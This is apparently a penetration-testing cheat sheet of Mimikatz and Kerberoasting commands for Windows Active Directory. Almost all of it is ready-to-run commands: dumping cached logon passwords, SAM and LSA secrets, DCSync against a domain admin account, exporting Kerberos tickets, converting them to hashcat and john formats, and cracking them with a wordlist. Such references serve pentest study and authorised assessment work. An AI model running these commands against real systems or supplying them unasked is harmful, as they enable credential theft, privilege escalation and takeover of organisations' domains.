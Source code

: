 #### Mimikatz Commands

\#Kerberoasting Cheatsheet

{% embed url="https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a" %}

```powershell
privilege::debug  #Check Architecture for for correct mimikatz version

#Password / Hash Grabbing Techniques
sekurlsa::logonpasswords  #Dump cached passwords from logins

lsadump::sam #Dumps passwords/hashes in sam file
lsadump::secrets #Dumps passwords

lsadump::dcsync /domain:corp.com /user:jeff_admin #Creates a ntlm hash from DC for lateral move

## Invoke-Mimikatz
Invoke-Mimikatz -DumpCreds -ComputerName XOR-APP59  

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

## Ticket Grabbing
net use \\dc01 #Creates a TGS with a domain user

sekurlsa::tickets  #Run with mimikatz
sekurlsa::tickets /export

PS C:\Users\Public\Documents> klist  #klist dumps tickets in powershell

#Invoke-Kerberoast.ps1 to dump tickets:

Import-Module .\Invoke-Kerberoast.ps1

Next type: PS C:\Users\Public> Invoke-Kerberoast.ps1

#Grabbing ticket hashes for hashcat:

Invoke-Kerberoast -OutputFormat Hashcat | % {$_.Hash} | Out-File -Encoding ascii hashes.hashcat

hashcat -m 13100 -a 0 -o cracked.txt hashes.hashcat /home/kali/rockyou.txt  ##Use SMBserver to transfer hashes

# Grabbing tickets for john:

PS C:\Tools\active_directory> Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}

sudo john --format=krb5tgs hash.txt --wordlist=/home/kali/rockyou.txt  #Use SMBserver to transfer hashes 

```
